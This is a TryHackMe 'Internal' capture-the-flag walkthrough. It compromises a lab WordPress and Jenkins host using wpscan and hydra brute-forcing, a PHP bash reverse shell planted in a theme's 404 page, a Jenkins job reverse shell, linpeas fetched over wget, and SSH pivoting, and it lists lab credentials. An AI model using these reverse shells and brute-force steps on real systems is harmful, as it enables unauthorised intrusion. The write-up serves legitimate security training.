 # Internal

**Room Link:** [https://tryhackme.com/room/internal](https://tryhackme.com/room/internal)



## Scanning

### Initial Scan

<pre><code><strong>nmap -A 10.10.46.54
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (5) (2).png" alt=""><figcaption></figcaption></figure>

### Scan all ports

No other ports found.

<pre><code><strong>nmap -p- 10.10.46.54
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (48) (1).png" alt=""><figcaption></figcaption></figure>

### TCP/80 - HTTP

```
gobuster dir -u http://10.10.46.54 -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt -t 30

```

<figure><img src="../../.gitbook/assets/image (46).png" alt=""><figcaption></figcaption></figure>

Wordpress is running under both /blog and /wordpress. /blog has a login page

```
wpscan --url http://10.10.46.54
wpscan --url http://10.10.46.54/blog --passwords /usr/share/wordlists/rockyou.txt
```

<figure><img src="../../.gitbook/assets/image (30) (2).png" alt=""><figcaption></figcaption></figure>

#### Credentials found

<pre><code><strong>Username: admin 
</strong><strong>Password: my2boys
</strong></code></pre>

Trying to login the page redirects to internal.htm so I add that to the host file.

```
vi /etc/hosts
```

<figure><img src="../../.gitbook/assets/image (24) (3).png" alt=""><figcaption></figcaption></figure>

We are able to successfully get into wordpress with the credentials

<figure><img src="../../.gitbook/assets/image (8) (1) (3).png" alt=""><figcaption></figcaption></figure>

Reverse Shell Failed Attempt

revshell.php code

```
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.120.18/443 0>&1'");
?>
```

```
vi revshell.php
zip revshell.zip revshell.php
nc -lvnp 443
```

<figure><img src="../../.gitbook/assets/image (9) (1) (1).png" alt=""><figcaption></figcaption></figure>

Unable to upload the plugin due to write issues

<figure><img src="../../.gitbook/assets/image (14) (4).png" alt=""><figcaption></figcaption></figure>

## Reverse Shell

TWENTY SEVENTEEN theme had a writable pages so I modified the 404 page with a reverse shell and then navigated to a page that does not exist.

<figure><img src="../../.gitbook/assets/image (44) (1) (1).png" alt=""><figcaption></figcaption></figure>

Just added the revshell.php code mentioned earlier.

<figure><img src="../../.gitbook/assets/image (32) (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
nc -lvnp 443
```

**Browser**

A page that doesn't exist to trigger the reverse shell.

```
http://www.internal.thm/blog/index.php/2020/08/03/hello-worlgd/
```

<figure><img src="../../.gitbook/assets/image (27) (1).png" alt=""><figcaption></figcaption></figure>

Get full TTY shell

<pre><code><strong>python -c 'import pty; pty.spawn("/bin/bash")'
</strong>ctrl + Z
stty raw -echo;fg
</code></pre>

### LinPeas

**Kali**

```
python2 -m SimpleHTTPServer 81
```

**Victim**

```
cd /tmp/
wget http://10.10.120.18:81/linpeas.sh
chmod +x linpeas.sh 
./linpeas.sh
```

Linpeas was able to find two sets of credentials. phpmyadmin credentials worked.

```
phpmyadmin
Username: phpmyadmin                                                                                                                
Password: B2Ud4fEOZmVq

note 
Username: aubreanna
Password: bubb13guM!@#123
```

The note for Bill

```
cat /opt/wp-save.txt 
```

<figure><img src="../../.gitbook/assets/image (47) (1).png" alt=""><figcaption></figcaption></figure>

Able to ssh in with the credentials. There is a file that says that Jenkins is running and we can confirm that is is running with netstat as well.

```
ssh aubreanna@10.10.46.54
Password: bubb13guM!@#123
cat jenkins.txt
netstat -tuan
```

<figure><img src="../../.gitbook/assets/image (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (3) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Pivot

From Kali I am now able to reach the Jenkins server

**Option #1**

For the rest of guide I used this option.

```
apt install sshuttle
sshuttle -r aubreanna@10.10.46.54 127.0.0.1/24
Password: bubb13guM!@#123
```

<figure><img src="../../.gitbook/assets/image (45).png" alt=""><figcaption></figcaption></figure>

**Option #2**

If I followed this way jenkins would be redirected to port 4444 on kali.

```
ssh -L 4444:172.17.0.2:8080 aubreanna@10.10.46.54
Password: bubb13guM!@#123
```

### Bruteforce

After checking for some time I couldn't find any files with credentials that worked and the jenkins server is being ran on docker and I had no access to anything for that  so I resorted to using hydra. What I did was tried logging in with fake credentials than seeing the request and copying the info I needed to start bruteforcing.

```
File: /j_acegi_security_check
Request Body: j_username=test&j_password=pass&from=%2F&Submit=Sign+in
Failed login message: Invalid username or password
```

<figure><img src="../../.gitbook/assets/image (10) (1) (3).png" alt=""><figcaption></figcaption></figure>

The default hydra was giving false positives and not getting the correct credentials so I downloaded from gitlab and ran the bruteforcing again.

```
git clone https://github.com/vanhauser-thc/thc-hydra.git
cd thc-hydra/
./configure
make
make install

./hydra 127.0.0.1 -s 8080 -V -f http-form-post "/j_acegi_security_check:j_username=^USER^&j_password=^PASS^&from=%2F&Submit=Sign+in&Login=Login:Invalid username or password" -l admin -P  /usr/share/wordlists/rockyou.txt
```

Credentials were found.

<figure><img src="../../.gitbook/assets/image (1) (1) (2).png" alt=""><figcaption></figcaption></figure>

```
Username: admin
Password: spongebob
```

### Jenkins Web

<figure><img src="../../.gitbook/assets/image (33) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (13) (4).png" alt=""><figcaption></figcaption></figure>

Just added a reverse shell to the job and ran it.

```
/bin/bash -c 'bash -i >& /dev/tcp/10.10.120.18/443 0>&1'
```

<figure><img src="../../.gitbook/assets/image (36) (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

Setup a listener

```
nc -lvnp 443
```

<figure><img src="../../.gitbook/assets/image (12) (4) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (7) (3).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

There was a note under opt for Aubreanna that had the credentials for root.

<figure><img src="../../.gitbook/assets/image (15) (3).png" alt=""><figcaption></figcaption></figure>

```
Username: root
Password: tr0ub13guM!@#123
```

Tried logging in with the credentials with ssh and it worked.

<pre><code>ssh root@10.10.56.152
<strong>Password: tr0ub13guM!@#123
</strong></code></pre>


